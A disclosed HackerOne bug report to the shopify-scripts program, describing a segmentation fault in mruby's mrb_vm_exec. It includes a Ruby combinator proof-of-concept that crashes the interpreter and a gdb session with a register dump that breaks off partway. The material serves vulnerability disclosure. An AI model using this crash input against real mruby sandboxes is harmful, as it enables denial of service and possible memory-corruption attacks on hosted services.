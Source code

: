 # SIGSEGV in mrb_vm_exec

## Report Details
- **Report ID**: 214845
- **URL**: https://hackerone.com/reports/214845
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-03-20T10:27:37.175Z
- **Disclosed**: 2017-05-13T21:30:42.349Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC
-------------------

The following code triggers the bug (attached as test_mrb_vm_exec.rb):

	s=proc{|f,g,x|f[x][g[x]]}.curry
	k=proc{|x,y|x}.curry
	i=proc{|x|x}.curry
	fi0=[]
	re0=proc{|x|fi0.size;x}.curry
	[s[s[i][i]][k[i]]][0][s[s[k[s]][s[k[s]][s[s[k[s]][s[k[s[k[re0]]]][s[k[s]][k]]]][k]]]][k[s[k[s]][k]]]]

Debug - mirb
-------------------

	x@x:~/Desktop/test/mruby/bin$ gdb -q ./mirb
	Reading symbols from ./mirb...done.
	(gdb) r test_mrb_vm_exec.rb 
	Starting program: /home/x/Desktop/test/mruby/bin/mirb test_mrb_vm_exec.rb
	mirb - Embeddable Interactive Ruby Shell

	 => #<Proc:0x6b2290@/home/x/Desktop/test/mruby/mrbgems/mruby-proc-ext/mrblib/proc.rb:30>
	 => #<Proc:0x6b2080@/home/x/Desktop/test/mruby/mrbgems/mruby-proc-ext/mrblib/proc.rb:30>
	 => #<Proc:0x6b1e70@/home/x/Desktop/test/mruby/mrbgems/mruby-proc-ext/mrblib/proc.rb:30>
	 => []
	 => #<Proc:0x6b1660@/home/x/Desktop/test/mruby/mrbgems/mruby-proc-ext/mrblib/proc.rb:30>

	Program received signal SIGSEGV, Segmentation fault.
	0x0000000000407731 in mrb_vm_exec (mrb=0x6b0010, proc=0x844e00, pc=0x6af540 <call_iseq>) at /home/x/Desktop/test/mruby/src/vm.c:1361
	1361	          regs[0] = m->env->stack[0];
	(gdb) info reg
	rax            0x3	3
	rbx            0x7ffff7fa2400	140737353753600
	rcx            0x7ffff7fa23c0	140737353753536
	rdx            0xffffffffffffffff	-1
	rsi            0x4	4
	rdi            0x7ffff7fa23f0	140737353753584
	rbp            0x7fffffffc930	0x7fffffffc930
	rsp            0x7fffffffc360	0x7fffffffc360
	r8             0x3	3
	r9             0x7ffff7acd7b8	140737348687800